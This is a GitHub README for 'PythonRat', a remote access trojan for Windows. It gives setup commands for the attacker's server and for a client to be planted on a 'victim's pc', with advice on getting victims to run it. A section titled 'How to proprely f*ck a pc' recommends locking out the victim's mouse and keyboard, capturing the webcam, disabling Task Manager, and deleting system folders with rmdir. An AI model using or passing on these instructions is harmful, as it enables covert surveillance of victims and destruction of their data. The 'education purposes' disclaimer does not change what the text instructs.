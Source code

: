 # PythonRat
Tuto on YouTube !

[YT Tuto](https://youtu.be/emp6ClyuJTI)

[MP4 Tuto](https://anonfiles.com/z7o8tdldz1/YTTutoRAT_mp4)

#  Help
Any questions ?

Come to discord !

!Kami#0001

## Disclamer

THIS SOFTWARE IS INTENDED ONLY FOR EDUCATION PURPOSES! DO NOT USE IT TO INFLICT 
DAMAGE TO ANYONE! USING MY APPLICATION YOU ARE AUTHOMATICALLY AGREE WITH ALL RULES AND
TAKE RESPONSIBITITY FOR YOUR ACTION! THE VIOLATION OF LAWS CAN CAUSE SERIOUS CONSEQUENCES!
THE DEVELOPER KamiHateOMG ASSUMES NO LIABILITY AND IS NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE 
CAUSED BY THIS PROGRAM.

## Intended for:
Windows systems

## Requirements
+ Pillow
+ pywin32
+ opencv-python
+ comtypes 
+ pycaw ([C++ Buils tools](https://visualstudio.microsoft.com/ru/visual-cpp-build-tools/) are required) (optional feature)
+ pyautogui
+ vidstream ([VS Code](https://code.visualstudio.com/) is required) (optional feature)
# Usage for server
```
git clone https://github.com/KamiHateOmg/PythonRat

cd PythonRat

pip install -r server_requirements.txt
 
python server.py
```
# Usage for client
```
git clone https://github.com/KamiHateOmg/PythonRat

cd PythonRat

pip install -r client_requirements.txt

python client.pyw
```
# Text Tuto

## On your pc : 
+ Go to an empty directory. Now go to Visual Studio Code and open the empty directory.

+ You will need to clone the repo, so you have to use [git](https://github.com/git-for-windows/git/releases/download/v2.40.0.windows.1/Git-2.40.0-64-bit.exe).

+ Then, run the command `cd PythonRat` to get into the Rat directory.

+ Now, run the command `pip install -r server_requirements.txt`, this will install all the required files.

To launch the server, just run `python server.py`, and now wait for the victim to run the client.pyw.

## On the victim's pc :
+ By any way, put by yourself or make the victim put the client.pyw and the client_requirements.txt on the victim's pc in any directory.

+ Now open a cmd in the directory on the victim's pc, and type `pip install -r client_requirements.txt`

+ Then run `python client.pyw`

#### When it's done, you will receive the help on your pc.

# How to proprely f*ck a pc.

When the victim has launched the RAT, type this command : `disable --all`, the victim will no longer be able to move her mouse or her keyboard.

Then, i recommend to use these commands : `webcam`, `disabletaskmgr`, `writein YOU ARE NOW FUCKED ! GOODBY AMIGOS HAHAHA`, `browser`, `systeminfo`, `volumeup`, `sendmessage`, `rmdir "C:\system"`, `rmdir "C:\system64"` and you can finish with the `kill` command. ;)


## Features
![Features](https://user-images.githubusercontent.com/92334349/151528654-e2c6ffb4-33df-430b-a965-07fac7773c19.png)

![Features](https://user-images.githubusercontent.com/92334349/151528715-c83b5d21-4df4-4143-acf4-a67907e180de.png)
